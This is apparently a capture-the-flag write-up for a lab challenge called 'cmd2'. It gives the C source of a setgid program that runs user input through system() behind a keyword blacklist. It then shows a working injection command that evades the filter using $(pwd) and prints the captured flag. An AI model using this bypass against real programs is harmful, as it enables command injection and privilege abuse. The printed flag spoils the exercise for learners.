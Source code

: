 # cmd2

The home folder of this challenge contains the following:

```
$ ls -l  
total 20
-r-xr-sr-x 1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r-- 1 root root      586 Dec 21  2015 cmd2.c
-r--r----- 1 root cmd2_pwn   30 Jul 14  2015 flag
```

### cmd2.c
```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
In this challenge, we have an updated blacklist of words and symbols. Setting the `PATH` variable is not an option anymore, because the `=` character is blacklisted. The most problematic blacklisted character is the forward slash `/`, because we need that character to execute programs ('./program'), if they are not defined in the `PATH` variable. This also includes the execution of self-written scripts, where you can execute whatever you want without words being blacklisted. Therefore it is important to somehow insert the `/` symbol in our command.

There are only a few commands available when the `PATH` is empty and when you cannot use the forward-slash. One of those commands is `pwd`. `pwd` return the absolute path of the current directory. The idea is to `cd` to the root folder, and execute `pwd`, which returns `/`. That is also exactly the character that we need in our command! `$(pwd)` will insert the result of executing the `pwd` command in place.

To solve this challenge, we navigate to the root directory and execute our self-constructed command with `/` replaced with `$(pwd)`. Because we want that the shell executes `$(pwd)` on the moment that the working directory is set to the root directory, we need to escape the `$` symbol to prevent that `$(pwd)` will be executed before entering `./cmd2`.

```
$ ./cmd2 "cd ..; cd ..; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)*"
cd ..; cd ..; $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)*
[truncated]
FuN_w1th_5h3ll_v4riabl3s_haha
```
